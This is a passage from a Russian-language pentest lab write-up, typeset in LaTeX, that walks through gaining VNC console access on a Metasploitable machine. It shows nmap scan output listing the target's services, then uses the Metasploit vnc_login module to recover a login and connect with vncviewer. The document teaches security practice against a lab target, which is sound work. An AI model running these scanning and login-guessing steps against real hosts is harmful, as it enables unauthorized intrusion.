 \documentclass[10pt,a4paper]{report}
\begin{document}
\subsubsection{Подключение к VNC серверу и получение доступа к консоли}
Определим, на каком порте запущен VNC сервер на атакуемой машине. Порт 5900.
\begin{verbatim}
root@kali:~# nmap 192.168.0.103 -sV

Starting Nmap 7.01 ( https://nmap.org ) at 2016-04-02 11:56 EDT
Nmap scan report for 192.168.0.103
Host is up (0.0014s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
\end{verbatim}
Для подключение к VNC серверу используем эксплоит auxiliary/scanner/vnc/vnc\_login. Для этого, как обычно, установим опцию RHOSTS на атакуемый хост 192.168.0.103. После выполнения видим, что эксплоит указал login, с помощью которого можно подключиться к VNC серверу атакуемой машины. Попробуем это осуществить командой vncviewer, указав порт 5900.
\end{document}
